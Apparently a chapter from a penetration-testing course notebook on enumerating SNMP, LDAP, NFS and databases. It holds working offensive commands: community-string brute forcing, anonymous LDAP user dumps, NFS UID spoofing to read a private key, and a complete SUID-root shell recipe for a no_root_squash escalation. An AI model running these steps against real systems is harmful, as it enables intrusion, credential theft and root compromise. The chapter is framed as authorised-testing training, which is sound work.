






This is Chapter 8 of the Scanning & Enumeration notebook. The previous chapter turned ports 139 and 445 into the richest single source of intelligence on a Windows network, teaching SMB, RPC and NetBIOS enumeration from null sessions through RID cycling. This chapter covers the four service families a tester reaches for next — the ones that keep leaking even when SMB has been hardened: **SNMP** (network management), **LDAP** (directory services), **NFS** (Unix file sharing), and the family of **database services** (MySQL, MSSQL, PostgreSQL, Oracle, MongoDB, Redis).

These four are grouped together for a reason. They are the highest-yield "second wave" services on almost every engagement. SNMP over UDP 161, if left on a default community string, will read out an entire device's configuration — interfaces, routing tables, ARP caches, running processes, installed software, and on Windows even fragments of the local user database. LDAP on 389/636 is the directory itself; an anonymous bind can dump every user, group, computer and organisational unit, along with descriptions that too often contain passwords. NFS on 2049 is Unix file sharing with a trust model built in the 1980s — a single misconfigured export with `no_root_squash` gives you the whole filesystem as root. And databases are where the data actually lives: default credentials, unauthenticated binds, and dangerous built-in features (`xp_cmdshell`, `LOAD_FILE`, Redis `CONFIG SET`) turn a listening port into code execution.

We build each from the ground up: the protocol, why it exists, how it is misconfigured in the real world, and then — tool by tool — exactly how to enumerate it, with every flag explained and realistic output annotated. `snmpwalk`, `snmp-check`, `onesixtyone`, `braa`, `ldapsearch`, `windapsearch`, `showmount`, `mysql`, `mssqlclient.py`, `psql`, `tnscmd10g`, `redis-cli` and the relevant Nmap NSE scripts are all taught from zero the first time they appear.

Everything here is active enumeration against live services. You are sending queries, authenticating (often anonymously), mounting shares and connecting to databases — all of which is logged and, at volume, alertable. It stays entirely inside authorised scope. Querying SNMP, LDAP, NFS or database services you have no written permission to test — and especially guessing or spraying credentials against them — is unlawful in most jurisdictions. A signed rules-of-engagement document is a hard boundary, assumed throughout and flagged where the risk is highest.

---

## Part 1: Where These Services Sit in the Methodology

By this point in an engagement you have discovered live hosts, port-scanned them, fingerprinted service versions, and drilled hard into SMB. The scan output is now a list of open ports, and among them you will very often see the ports this chapter covers. They are worth prioritising because each one has a well-worn path from "open port" to "useful intelligence" or "foothold" — and because defenders frequently harden SMB and web while leaving these older, less-glamorous services on their defaults.

Here is the mental map for the whole chapter — the four families and what each one gives up when misconfigured:



A key theme unites all four: **they were designed for a trusted internal network and their default trust models are far too generous for a modern environment.** SNMPv1/v2c authenticate with a plaintext string sent in the clear. LDAP permits anonymous binds by default in many deployments. NFS trusts the client to tell the truth about which UID it is. Databases historically shipped with blank or well-known default passwords. Every technique in this chapter exploits that gap between "trusted LAN" assumptions and reality.

**Pentester landing on a fresh subnet:** the fastest wins here are frequently non-SMB. A default SNMP community string on a router hands you the entire network topology and often the device's own admin credentials; an anonymous LDAP bind on a domain controller hands you the user list for password spraying; an `no_root_squash` NFS export hands you root without an exploit. Learn to spot these ports and triage them fast.

---

## Part 2: SNMP — The Protocol That Reads Out Everything

### 2.1 What SNMP actually is

**SNMP** stands for **Simple Network Management Protocol**. It is the standard way to monitor and manage network-attached devices — routers, switches, firewalls, printers, servers, UPSes, IP cameras, and countless embedded appliances. A monitoring server (the **Network Management Station**, NMS) polls devices for their status; each managed device runs an **SNMP agent** that answers those polls and can also send unsolicited **traps**.

It runs over **UDP**, not TCP:

- **UDP 161** — the agent listens here for queries (`GET`, `GETNEXT`, `GETBULK`, `SET`).
- **UDP 162** — the NMS listens here for **traps** (asynchronous alerts pushed by the agent).

Because it is UDP, port scanning SNMP is unreliable in the usual way — a closed UDP port may simply drop packets, and an open one may only respond to a correctly-formed query with a valid community string. This is why SNMP is missed on so many engagements: a plain TCP scan never sees it, and even a UDP scan can miss it if the community string is wrong. You have to look for it deliberately.

### 2.2 The data model: OIDs and the MIB

Everything SNMP exposes is organised as a giant hierarchical tree. Each leaf is identified by an **OID** (Object Identifier) — a dotted string of numbers like `1.3.6.1.2.1.1.5.0`. The structure of that tree is described by **MIBs** (Management Information Bases), which map human-readable names onto the numeric OIDs.



A few OIDs worth memorising because they are the ones you read first on every SNMP target:

| OID | Name | What it gives you |
|-----|------|-------------------|
| `1.3.6.1.2.1.1.1.0` | `sysDescr` | Full OS / firmware description and version |
| `1.3.6.1.2.1.1.5.0` | `sysName` | Device hostname |
| `1.3.6.1.2.1.1.6.0` | `sysLocation` | Physical location string |
| `1.3.6.1.2.1.1.4.0` | `sysContact` | Admin contact (often an email) |
| `1.3.6.1.2.1.25.1.6.0` | `hrSystemProcesses` | Number of running processes |
| `1.3.6.1.2.1.25.4.2.1.2` | `hrSWRunName` | Names of every running process |
| `1.3.6.1.2.1.25.6.3.1.2` | `hrSWInstalledName` | Every installed software package |
| `1.3.6.1.2.1.2.2.1.2` | `ifDescr` | Network interface descriptions |
| `1.3.6.1.2.1.4.22.1` | `ipNetToMedia` | ARP cache (IP-to-MAC map of the LAN) |
| `1.3.6.1.4.1.77.1.2.25` | LanMgr `userTable` | **Windows local usernames** |
| `1.3.6.1.4.1.77.1.2.27` | LanMgr shares | Windows share list |

That last block — the `1.3.6.1.4.1.77` Microsoft LanManager private tree — is why SNMP on a Windows host is so dangerous: it enumerates local users and shares without any Windows credential at all.

### 2.3 The versions and why they matter for security

There are three SNMP versions, and the version determines how (in)secure the target is:

| Version | Auth model | Confidentiality | Security reality |
|---------|-----------|-----------------|------------------|
| **SNMPv1** | Community string (plaintext) | None | Trivially sniffable; string sent in the clear |
| **SNMPv2c** | Community string (plaintext) | None | Same as v1 plus `GETBULK`; still plaintext |
| **SNMPv3** | User + auth (MD5/SHA) + priv (DES/AES) | Optional encryption | Actually secure when configured with authPriv |

The overwhelming majority of exposed SNMP is **v2c** with a **community string** — effectively a shared password sent in cleartext in every packet. There are two community strings that matter:

- **Read-only (RO)** community — default very often `public`. Lets you `GET`/`walk` the whole tree.
- **Read-write (RW)** community — default very often `private`. Lets you `SET` values — reconfigure the device, change routes, sometimes upload a new firmware image or config.

**Red team usage:** an RW community string on a Cisco device is not just information disclosure — with `SET` you can instruct the router to TFTP its running config to you (the classic `ciscoconfig` OID abuse), or push a new config. An RW string is close to owning the device.

### 2.4 Installing the SNMP tooling on Kali

The core client tools live in the `snmp` package (the `snmpwalk`/`snmpget` family), plus a few dedicated enumeration tools:

```bash
# Core Net-SNMP command-line tools (snmpwalk, snmpget, snmpbulkwalk, snmpset)
sudo apt update
sudo apt install -y snmp snmp-mibs-downloader

# Fast community-string bruteforcers
sudo apt install -y onesixtyone braa

# All-in-one SNMP enumeration
sudo apt install -y snmp-check
```

By default Net-SNMP ships with MIB name translation disabled (it prints raw numeric OIDs). To get human-readable names, download the MIBs and enable them:

```bash
sudo download-mibs
# Then comment out the 'mibs :' line in /etc/snmp/snmp.conf, or per-command:
snmpwalk -v2c -c public 10.10.10.5 -m ALL
```

`-m ALL` tells the tool to load every MIB it can find so OIDs render as names instead of numbers.

### 2.5 Finding SNMP and bruteforcing the community string

You almost never know the community string in advance, so step one is finding SNMP and finding a valid string. Two tools do this at speed.

**onesixtyone** — a fast community-string scanner. It fires UDP 161 probes at a list of hosts with a wordlist of community strings and reports which combinations answer:

```bash
# Single host, common strings
onesixtyone 10.10.10.5 public

# Sweep a subnet with a community wordlist
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt \
            -i targets.txt -o snmp-hits.txt
```

Flags:
- `-c FILE` — file of community strings to try.
- `-i FILE` — file of target IPs (one per line).
- `-o FILE` — write results to a file.
- `-w N` — wait N milliseconds between packets (throttle to avoid flooding UDP).

Annotated output:

```
Scanning 1 hosts, 3218 communities
10.10.10.5 [public] Linux gateway 5.4.0-88-generic #99-Ubuntu SMP x86_64
10.10.10.5 [private] Linux gateway 5.4.0-88-generic #99-Ubuntu SMP x86_64
```

Two hits: `public` (RO) and `private` (RW). The string in brackets is the community that worked; the trailing text is the `sysDescr` the agent volunteered. Finding `private` here is a big deal — it means writable SNMP.

**braa** — a mass SNMP resolver that can query specific OIDs across many hosts very fast (useful once you have a string and want to pull one value from a whole /24):

```bash
# Grab sysDescr from every host in the range using community 'public'
braa public@10.10.10.0/24:.1.3.6.1.2.1.1.1.0
```

The syntax is `community@target:OID`. braa is much faster than snmpwalk for pulling a single OID across many hosts.

Nmap also has SNMP NSE scripts, useful when you already run Nmap for everything:

```bash
sudo nmap -sU -p 161 --script "snmp-brute,snmp-info,snmp-interfaces,snmp-processes,snmp-win32-users,snmp-netstat" 10.10.10.5
```

- `-sU` — UDP scan (required; SNMP is UDP).
- `snmp-brute` — bruteforces the community string.
- `snmp-win32-users` — enumerates Windows local accounts via the LanMgr MIB.
- `snmp-processes` / `snmp-netstat` — running processes and active connections.

### 2.6 snmpwalk — reading the whole tree

Once you have a valid RO community, `snmpwalk` is the workhorse. It repeatedly issues `GETNEXT` (or `GETBULK` under v2c) to walk from a starting OID all the way down the subtree, printing every value.

```bash
# Walk the ENTIRE MIB tree (loud but complete)
snmpwalk -v2c -c public 10.10.10.5

# Walk from a specific subtree only (system info)
snmpwalk -v2c -c public 10.10.10.5 1.3.6.1.2.1.1

# Use GETBULK with 50 repetitions per request — much faster full walk
snmpbulkwalk -v2c -c public -Cr50 10.10.10.5
```

Flags:
- `-v2c` — SNMP version 2c (use `-v1` for v1; `-v3` needs `-u user -l authPriv -a SHA -A pass -x AES -X privpass`).
- `-c public` — the community string.
- `-Cr50` (snmpbulkwalk only) — max-repetitions of 50 per GETBULK; higher = fewer round trips = faster.
- `-On` — print numeric OIDs (no name translation), handy when a MIB is missing.
- `-Oa` — print octet strings as ASCII.

Annotated output from a full walk (trimmed to the good parts):

```
SNMPv2-MIB::sysDescr.0 = STRING: Hardware: Intel64, Software: Windows Version 6.3 (Build 9600)
SNMPv2-MIB::sysName.0 = STRING: FILESRV01
SNMPv2-MIB::sysContact.0 = STRING: admin@corp.local
HOST-RESOURCES-MIB::hrSWRunName.1 = STRING: "System Idle Process"
HOST-RESOURCES-MIB::hrSWRunName.812 = STRING: "sqlservr.exe"
HOST-RESOURCES-MIB::hrSWRunName.914 = STRING: "OpenVPNService.exe"
HOST-RESOURCES-MIB::hrSWInstalledName.3 = STRING: "VMware Tools"
IP-MIB::ipNetToMediaPhysAddress.2.10.10.10.1 = STRING: 0:50:56:c0:0:8
```

Look at what that dumped without a single Windows credential: the exact OS build (`Windows 6.3 / Build 9600` = Server 2012 R2), the hostname, an admin email (a spray target), the fact that SQL Server and OpenVPN are running, installed software, and the ARP cache mapping neighbours on the LAN. This is a reconnaissance goldmine.

### 2.7 The classic SNMP credential leak

Poorly-written devices and applications sometimes store credentials in SNMP-readable OIDs. Two famous cases:

- **Printers and MFPs** frequently expose SMTP, LDAP or admin credentials in their private MIB — a walk of a Xerox/HP/Canon MFP not uncommonly yields the domain service account it uses to scan-to-email or scan-to-folder.
- **Windows** with the LanManager MIB exposes local usernames (`1.3.6.1.4.1.77.1.2.25`), which feed straight into password spraying.

Extract just the Windows users:

```bash
snmpwalk -v2c -c public 10.10.10.5 1.3.6.1.4.1.77.1.2.25
```

```
SNMPv2-SMI::enterprises.77.1.2.25.1.1.5.71.117.101.115.116 = STRING: "Guest"
SNMPv2-SMI::enterprises.77.1.2.25.1.1.13.65.100.109.105... = STRING: "Administrator"
SNMPv2-SMI::enterprises.77.1.2.25.1.1.7.115.118.99.95... = STRING: "svc_backup"
```

`svc_backup` is a service account — a prime spraying and Kerberoasting target once you reach the AD stage.

### 2.8 snmp-check — the friendly one-shot enumerator

`snmp-check` wraps a walk of the most useful OIDs into a clean, human-readable report — often the fastest way to triage a host:

```bash
snmp-check -c public -v 2c 10.10.10.5
```

It prints, in labelled sections: system info, uptime, network interfaces (with IP/MAC/speed), the routing table, listening TCP/UDP ports, running processes, installed software, and (on Windows) user accounts and shares. For a first pass it is more digestible than raw `snmpwalk`.

**Blue team usage:** the same reports are what your monitoring team should audit. If `snmp-check` from an unauthenticated position returns anything, the community string is guessable and the box is over-sharing.

---

## Part 3: LDAP — Reading the Directory Itself

### 3.1 What LDAP is and why it leaks

**LDAP** — **Lightweight Directory Access Protocol** — is the query protocol for directory services. On a Windows network the directory is **Active Directory**; on Unix it may be OpenLDAP, 389 Directory Server or FreeIPA. Either way, the directory is the authoritative store of users, groups, computers, organisational units, and their attributes. If you can query it, you can enumerate the entire organisation.

The ports:

| Port | Protocol | Notes |
|------|----------|-------|
| **389/tcp** | LDAP (cleartext, or STARTTLS-upgradable) | Default; most enumeration happens here |
| **636/tcp** | LDAPS (LDAP over SSL/TLS) | Encrypted from the first byte |
| **3268/tcp** | Global Catalog (GC) | AD forest-wide search, cleartext |
| **3269/tcp** | Global Catalog over SSL | Forest-wide, encrypted |

The **Global Catalog** on 3268 is special on AD: it holds a partial replica of *every domain in the forest*, so a single GC query searches the whole forest at once — invaluable in multi-domain environments.

### 3.2 The data model: DNs, RDNs and the naming context

LDAP entries are organised in a tree (the **Directory Information Tree**). Each entry has a **Distinguished Name (DN)** built from **Relative Distinguished Names (RDNs)** that walk up the tree:

```
CN=John Smith,OU=Finance,DC=corp,DC=local
```

Read right to left: the domain `corp.local` becomes `DC=corp,DC=local` (the **base DN** / naming context); inside it an organisational unit `OU=Finance`; inside that a user `CN=John Smith`.



To query anything you need the base DN. If you don't know it, LDAP hands it to you: the **RootDSE** — a special entry queryable *anonymously even when the rest of the tree is locked* — advertises the `defaultNamingContext`, `rootDomainNamingContext`, and supported controls.

### 3.3 The bind — anonymous, simple, and why anonymous is the jackpot

To query LDAP you first **bind** (authenticate). There are three cases:

- **Anonymous bind** — no credentials. Historically the default on many directories; on legacy or misconfigured AD it may still return the full tree. This is the jackpot: full directory read with no credentials.
- **Simple bind** — username + password in cleartext (fine over 636/LDAPS, dangerous over 389).
- **SASL bind** — GSSAPI/Kerberos or NTLM; what modern AD tools use with a valid credential.

Modern AD restricts anonymous binds to the RootDSE by default — but plenty of environments have loosened this, and Unix LDAP is far more permissive. Always test anonymous first.

### 3.4 ldapsearch — the universal LDAP client

`ldapsearch` ships in the `ldap-utils` package:

```bash
sudo apt install -y ldap-utils
```

Its argument surface is dense but only a handful of flags matter. Start by pulling the RootDSE to discover the base DN, anonymously:

```bash
ldapsearch -x -H ldap://10.10.10.5 -s base -b "" "(objectClass=*)"
```

Flags:
- `-x` — simple authentication (as opposed to SASL); with no `-D`/`-w` this means **anonymous bind**.
- `-H ldap://HOST` — the LDAP URI (`ldaps://` for 636).
- `-s base` — search **scope** of `base` (this entry only). Other scopes: `one` (immediate children), `sub` (entire subtree).
- `-b ""` — the **base DN** to search from; empty string plus `-s base` = the RootDSE.
- `"(objectClass=*)"` — the **filter**; match everything.

Annotated RootDSE output:

```
dn:
defaultNamingContext: DC=corp,DC=local
rootDomainNamingContext: DC=corp,DC=local
configurationNamingContext: CN=Configuration,DC=corp,DC=local
dnsHostName: DC01.corp.local
supportedLDAPVersion: 3
supportedSASLMechanisms: GSSAPI
```

Now you have the base DN (`DC=corp,DC=local`) and the DC hostname. Dump the whole tree anonymously to see whether anonymous bind is allowed:

```bash
ldapsearch -x -H ldap://10.10.10.5 -b "DC=corp,DC=local" "(objectClass=*)"
```

If that returns entries, anonymous bind is open — extract users:

```bash
# All user accounts, only the attributes worth reading
ldapsearch -x -H ldap://10.10.10.5 -b "DC=corp,DC=local" \
  "(&(objectClass=user)(objectCategory=person))" \
  sAMAccountName description memberOf userAccountControl
```

The filter `(&(objectClass=user)(objectCategory=person))` is the canonical "real user accounts, not computer accounts" filter. `&` is a logical AND of the two conditions.

Annotated output:

```
dn: CN=Priya Rao,OU=IT,DC=corp,DC=local
sAMAccountName: prao
description: IT admin
memberOf: CN=Domain Admins,CN=Users,DC=corp,DC=local

dn: CN=svc_sql,CN=Users,DC=corp,DC=local
sAMAccountName: svc_sql
description: SQL service acct - Winter2024!
userAccountControl: 66048
```

Two immediate wins: `prao` is a Domain Admin (spray/target priority), and `svc_sql` has a **password sitting in its description field** — one of the most common real-world LDAP findings. `userAccountControl: 66048` decodes to `NORMAL_ACCOUNT (512) + DONT_EXPIRE_PASSWORD (65536)` — a non-expiring service account, ideal to abuse.

### 3.5 Authenticated LDAP queries

Once you have any valid domain credential (even the one you just found in a description), authenticated queries return far more:

```bash
ldapsearch -x -H ldap://10.10.10.5 \
  -D "svc_sql@corp.local" -w 'Winter2024!' \
  -b "DC=corp,DC=local" \
  "(&(objectClass=user)(servicePrincipalName=*))" sAMAccountName servicePrincipalName
```

- `-D BINDDN` — the bind identity (`user@domain` UPN form works on AD).
- `-w PASSWORD` — the bind password (`-W` prompts instead of putting it on the command line).

That filter — users with a `servicePrincipalName` — returns exactly the **Kerberoastable** accounts, the bridge into the Active Directory attack chapters later in the series.

### 3.6 windapsearch and Nmap NSE for LDAP

`windapsearch` wraps common AD LDAP queries into named actions so you don't hand-write filters:

```bash
# Clone and run (Python)
git clone https://github.com/ropnop/windapsearch && cd windapsearch

# Enumerate all domain users anonymously
python3 windapsearch.py -d corp.local --dc-ip 10.10.10.5 -U

# With creds: dump privileged users and computers
python3 windapsearch.py -d corp.local --dc-ip 10.10.10.5 \
  -u svc_sql@corp.local -p 'Winter2024!' --da --computers
```

- `-U` — enumerate users, `--da` — Domain Admins group members, `--computers` — computer objects, `-G` — groups.

Nmap's LDAP NSE scripts do a fast unauthenticated pass:

```bash
nmap -p 389 --script "ldap-rootdse,ldap-search" \
  --script-args 'ldap.base="dc=corp,dc=local"' 10.10.10.5
```

**Blue team usage:** every one of these queries hits the DC and is visible in Directory Service and security logs. A sudden anonymous subtree walk of the whole domain is a strong recon indicator — Event ID 1644 (with expensive-search logging enabled) and unusual LDAP bind patterns are the tells.

---

## Part 4: NFS — Unix File Sharing With a 1980s Trust Model

### 4.1 What NFS is and how the pieces fit

**NFS** — the **Network File System** — is the standard way Unix and Linux hosts share directories over a network. A server *exports* directories; clients *mount* them and use them as if local. It was designed for trusted campus LANs, and its default trust model reflects that.

The moving parts and their ports:

| Component | Port | Role |
|-----------|------|------|
| **rpcbind / portmapper** | 111 (TCP+UDP) | Directory: tells clients which port each RPC service is on |
| **nfsd** | 2049 (TCP+UDP) | The NFS server itself |
| **mountd** | dynamic (via portmapper) | Handles mount requests, checks export permissions |
| **statd / lockd** | dynamic | File locking and crash recovery |

NFSv4 consolidated everything onto **2049** and dropped the separate portmapper dependency, but NFSv3 — still extremely common — relies on **rpcbind on 111** to locate `mountd`. So port 111 open is your flag that RPC services (very possibly NFS) are present.



### 4.2 The core weakness: the server trusts the client's UID

Here is the design flaw testers exploit. In classic NFS (AUTH_SYS / AUTH_UNIX), when you access a file the client simply *tells* the server "I am UID 1001, GID 1001" and the server believes it. There is no per-user authentication in the protocol itself — access control is by **IP address of the client** (which hosts may mount) plus **file permissions keyed on UID/GID the client asserts.**

Two consequences:

1. **UID spoofing.** If a file on the export is owned by UID 1005, you just create a local user with UID 1005 (or `sudo` to it), and the server lets you read/write it. You control your own UID locally, so you control which files you can touch.
2. **`no_root_squash`.** Normally the server "squashes" a remote root (UID 0) down to the unprivileged `nobody` user, so a client's root can't rampage across the export. If the admin set **`no_root_squash`** on the export, remote root **stays root** — you can read every file and, critically, write a root-owned SUID binary to the share and execute it locally for instant privilege escalation.

### 4.3 Enumerating exports with showmount

`showmount` lives in the `nfs-common` package:

```bash
sudo apt install -y nfs-common
```

List what a server exports and to whom:

```bash
# List all exports and their allowed clients
showmount -e 10.10.10.5
```

- `-e` — show the **export list**.
- `-a` — show all mount points currently mounted by clients (`host:dir`).
- `-d` — show only directories being mounted.

Annotated output:

```
Export list for 10.10.10.5:
/srv/nfs/backups   *
/home              10.10.10.0/24
/opt/scripts       (everyone)
```

`/srv/nfs/backups *` means it is exported to **any** client on the internet/LAN — no IP restriction at all. That is the one to mount first.

Nmap covers the same ground plus the mount contents:

```bash
nmap -p 111,2049 --script "rpcinfo,nfs-showmount,nfs-ls,nfs-statfs" 10.10.10.5
```

- `rpcinfo` — lists all RPC programs registered with portmapper (equivalent to `rpcinfo -p`).
- `nfs-ls` — lists files inside each export (with permissions and UIDs) without you mounting.
- `nfs-statfs` — filesystem stats per export.

`rpcinfo` directly:

```bash
rpcinfo -p 10.10.10.5
```

```
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100005    3   tcp  48372  mountd
    100003    4   tcp   2049  nfs
```

### 4.4 Mounting and the no_root_squash privilege escalation

Mount the export locally:

```bash
sudo mkdir -p /mnt/target
sudo mount -t nfs -o vers=3 10.10.10.5:/srv/nfs/backups /mnt/target -o nolock
ls -lan /mnt/target
```

- `-t nfs` — filesystem type.
- `-o vers=3` — force NFSv3 (often needed against older servers; try `vers=4` too).
- `-o nolock` — skip file locking (avoids hangs when statd/lockd aren't reachable).
- `ls -lan` — list with **numeric** UIDs/GIDs (`-n`), so you see the raw ownership you must match.

Now the escalation, step by step, when `no_root_squash` is set. From your attacking box (where you are root):

```bash
# 1. Confirm no_root_squash by writing a root-owned file to the share
sudo touch /mnt/target/rootcheck
ls -lan /mnt/target/rootcheck
# -rw-r--r-- 1 0 0 0 ... rootcheck   <-- owner UID 0 preserved = no_root_squash!

# 2. Drop a SUID-root shell onto the share
cat > /tmp/rootme.c <<'EOF'
#include <stdio.h>
#include <unistd.h>
int main(){ setuid(0); setgid(0); execl("/bin/bash","bash","-p",NULL); return 0; }
EOF
gcc -o /mnt/target/rootme /tmp/rootme.c
sudo chown root:root /mnt/target/rootme
sudo chmod 4755 /mnt/target/rootme
```

The binary is now on the NFS server's filesystem, owned by root, with the SUID bit set — because `no_root_squash` let your root writes stay root. When a low-privileged shell **on the target host** runs it, `setuid(0)` succeeds and you get a root shell:

```bash
# On the target (as the low-priv user you already have):
/srv/nfs/backups/rootme
id
# uid=0(root) gid=0(root) groups=0(root)
```

This is one of the most reliable Linux privilege-escalation primitives in CTFs and real engagements alike.

**CTF relevance:** `no_root_squash` NFS escalation appears constantly on HackTheBox and TryHackMe Linux boxes — it is worth having this exact SUID-binary recipe memorised.

### 4.5 UID spoofing without no_root_squash

Even with root squashed, if the export contains files owned by a specific non-root UID, become that UID locally and read them:

```bash
# The interesting file is owned by UID 1005
ls -lan /mnt/target
# -rw------- 1 1005 1005 512 ... id_rsa

# Create a local user with the matching UID and switch to it
sudo useradd -u 1005 spoofed
sudo -u spoofed cat /mnt/target/id_rsa
```

Because NFS trusts the client-asserted UID, `spoofed` (UID 1005) can read the private key. That SSH key is often the next foothold.

---

## Part 5: Database Services — Where the Data Actually Lives

Databases are the highest-value targets because they hold the data the whole engagement is usually about, and because their default configurations were historically dreadful. We cover the six you meet most often. For each: the port, how to connect, how to authenticate (including default/blank creds), how to enumerate, and the dangerous features that lead to file read or code execution.



### 5.1 MySQL / MariaDB — port 3306

**Connecting and default creds.** The client is `mysql`:

